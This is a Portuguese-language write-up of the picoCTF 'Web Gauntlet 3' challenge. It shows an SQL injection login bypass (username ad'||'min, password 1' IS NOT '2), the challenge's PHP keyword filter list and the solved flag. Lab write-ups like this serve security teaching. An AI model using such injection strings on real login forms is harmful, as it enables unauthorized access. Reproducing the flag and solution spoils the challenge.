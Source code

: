# Gauntlet 3
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [Tipo de Vulnerabilidade 1, Tipo de Vulnerabilidade 2 e Tipo de Vulnerabilidade 3]  

## Sobre o Desafio  
Last time, I promise!  

**Objetivo:** Log in as admin. 

## 🔗 Links do Desafio

- [Acesse o site](http://mercury.picoctf.net:8650/)  
- [Página de filtragem](http://mercury.picoctf.net:8650/filter.php)    

## Solução  

Acessei o site com essa tela de login:<br>

![image](https://github.com/user-attachments/assets/894f1710-9ef2-4e1e-8d6c-f9b3cf4e3321)

E vi que na url ```http://mercury.picoctf.net:32946/filter.php``` continha os mesmos filtros do Web Gauntlet 2.<br>

![image](https://github.com/user-attachments/assets/e665f986-4d37-4d1b-94ae-722b0079b467)


Com isso minha primeira tentativa foi usar o Login que usei no Web Gauntlet 2, LOGIN:```ad'||'min``` SENHA:```1' IS NOT '2```.
E acabou funcionando!<br>

![image](https://github.com/user-attachments/assets/86f0695b-065b-435b-84b3-4c05235fc10d)

![image](https://github.com/user-attachments/assets/8eae02cb-ddd8-4f51-9d7d-aec65f7337e7)

Com isso o site mandou eu visitar o link ```http://mercury.picoctf.net:32946/filter.php``` novamente e me apresentou o código a seguir:<br>

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```

> Assim, obtemos a flag `picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}`  
